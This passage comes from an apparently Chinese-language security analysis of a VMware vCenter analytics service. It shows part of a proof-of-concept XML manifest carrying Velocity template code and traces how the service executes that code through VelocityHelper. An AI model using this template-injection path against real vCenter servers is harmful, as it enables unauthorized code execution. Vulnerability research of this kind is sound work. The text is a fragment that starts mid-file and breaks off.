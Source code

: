 ```plain
                        #set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
                        $obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
                        $obj.addProperty("BUILD", $content-about-build)##
                        $obj.addProperty("VERSION", $content-about-version)##]]>
                     </mappingCode>
                     </resourceItemToJsonLdMapping>
                  </value>
               </value>
            </entry>
         </resultSetMappings>
      </indepedentResultsMapping>
   </cdfMapping>
   <requestSchedules>
      <schedule interval="1h">
         <queries>
            <query>vir:VCenter</query>
         </queries>
      </schedule>
   </requestSchedules>
</manifest>
```

com.vmware.ph.phservice.collector.internal.cdf.mapping.ResourceItemToJsonLdMapping#map  
跟中到如下位置，解析 manifest 获取 mappingCode，调用 VelocityHelper.executeVelocityExpression 执行 velocity 表达式  
[![](assets/1704161823-17e368bec4317cd2bdb9ce72d17e65b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122418-92a27d26-491c-1.png)  
堆栈太长，完整的如下
